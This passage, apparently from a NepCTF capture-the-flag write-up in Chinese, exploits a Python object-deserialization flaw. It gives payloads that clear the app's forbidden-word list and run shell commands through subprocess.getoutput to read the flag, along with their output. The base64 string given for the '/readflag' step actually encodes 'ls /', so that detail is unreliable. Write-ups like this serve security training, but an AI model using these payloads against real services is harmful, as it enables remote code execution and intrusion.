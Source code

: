 ​	我们可以调用制定方法，我们就可以调用`__main__.FORBIDDEN.clear()`直接把屏蔽词扬了

> Provided by Pid

​	Payload如下：

```json
{"py/object": "__main__.Session", "meta": {"user": {"py/object": "__main__.FORBIDDEN.clear", "py/newargs": []}, "ts": 1753451910}}

eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogeyJweS9vYmplY3QiOiAiX19tYWluX18uRk9SQklEREVOLmNsZWFyIiwgInB5L25ld2FyZ3MiOiBbXX0sICJ0cyI6IDE3NTM0NTE5MTB9fQ==
```

​	执行之后屏蔽词就没了😋

```json
{"py/object": "__main__.Session", "meta": {"user": {"py/object": "subprocess.getoutput", "py/newargs": ["ls /"]}, "ts": 1753451910}}

eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogeyJweS9vYmplY3QiOiAic3VicHJvY2Vzcy5nZXRvdXRwdXQiLCAicHkvbmV3YXJncyI6IFsibHMgLyJdfSwgInRzIjogMTc1MzQ1MTkxMH19
```

```shell
用户名:
app bin boot dev entrypoint.sh etc flag home lib lib64 media mnt opt proc readflag root run sbin srv sys tmp usr var
```

​	执行`/readflag`即可获得flag

```json
{"py/object": "__main__.Session", "meta": {"user": {"py/object": "subprocess.getoutput", "py/newargs": ["/readflag"]}, "ts": 1753451910}}

eyJweS9vYmplY3QiOiAiX19tYWluX18uU2Vzc2lvbiIsICJtZXRhIjogeyJ1c2VyIjogeyJweS9vYmplY3QiOiAic3VicHJvY2Vzcy5nZXRvdXRwdXQiLCAicHkvbmV3YXJncyI6IFsibHMgLyJdfSwgInRzIjogMTc1MzQ1MTkxMH19
```

```shell
用户名:
NepCTF{d08fb277-1a51-fd9d-39aa-98cad01a05d7}
```

xia bo
